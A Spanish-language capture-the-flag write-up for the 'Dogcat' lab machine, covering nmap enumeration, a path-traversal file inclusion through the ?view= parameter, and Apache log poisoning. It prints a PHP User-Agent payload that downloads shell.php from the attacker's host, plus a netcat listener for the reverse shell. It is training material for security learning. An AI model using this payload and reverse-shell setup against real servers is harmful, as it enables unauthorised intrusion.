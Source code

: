 # Dogcat

Comenzamos como en todos los Write-Ups en enumerar la conectividad y los puertos que encontramos abiertos

```
ping ip
```

```
ping 10.10.55.221
PING 10.10.55.221 (10.10.55.221) 56(84) bytes of data.
64 bytes from 10.10.55.221: icmp_seq=1 ttl=64 time=1.81 ms
64 bytes from 10.10.55.221: icmp_seq=2 ttl=64 time=0.350 ms
^C
--- 10.10.55.221 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 0.350/1.082/1.815/0.733 ms
```

```
sudo nmap -sCV -T4 --min-rate 4000 ip
sudo nmap -sCV -T4 --min-rate 4000 ip -p- o -p
```

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.55.221

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-28 15:05 GMT
Nmap scan report for ip-10-10-55-221.eu-west-1.compute.internal (10.10.55.221)
Host is up (0.00054s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:8D:58:72:CE:E9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds
```

Nos encontramos los tipicos 80 y 22 abiertos, con lo cuál veremos que hay en la web ya sea con curl o metiendonos directamente

![image](https://github.com/user-attachments/assets/5ef49764-57a4-42a5-8fd3-c05d5c55a83b)

Podemos fijarnos de una cosa muy importante y que es muy fácil de ver. La URL vemos un directory traversal un /?view=

Si probamos a poner otra cosa que no sea dog o cat nos salta error, pero vemos que si ponemos por ejemplo /dog nos dice la ruta en la que se encuentra y podemos ver cosas importantes.

- Vemos la ruta /var/www/ tal tal
- Vemos que el archivo es obligatorio que empiece por .php
- Nos obliga a poner la ruta dog obligatoria


Vamos a probar Los tipicos de Directorio para probar, obviamente no vamos a atinar porque tenemos que tener las 3 características.

![image](https://github.com/user-attachments/assets/ab2e4c4a-c34d-49f9-8a2e-d1bddc3ea425)

¿Como lo he conseguido?

Como podemos ver tenemos las 3 características, quitamos la extensión php con &ext, nos vamos a la ruta /etc/passwd con ../../ y por ultimo empezamos con dog pero lo quitamos con ) 

Vamonos al developer para ver mejor el etc/host o cualquier otra cosa porque desde aquí podemos hacer cosas chulas.

[Apache log poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/?ref=fr33s0ul.tech)

Vale después de que lo os leais os comento como funciona el LFI gracias al path traversal

Nos creamos una shell con pentest monkey, cuando la tengamos creada abrimos un servidor http y un netcat

```
python3 -m http.server
rlwrap nc -lvnp puerto
```

Cuando tengamos todo abierto, nos vamos a la dirección anterior y recogemos la URL

![image](https://github.com/user-attachments/assets/d47fd630-500b-4fc6-bf9a-ba57b54f1272)

Como vemos deberemos cambiar el user-agent a 

```
<?php file_put_contents('shell.php', file_get_contents('http://[your-host]/shell.php'))?>
```

Gracias a esto recogera el archivo en cuestión yo le he llamado "shell.php" vosotros lo podeir llamar como queraís

Posteriormente nos iremos a la url del target

http//target/shell.php

Y gg estamos dentro.

![image](https://github.com/user-attachments/assets/b8ee674e-c74c-484a-8038-7e2b927ea9f5)





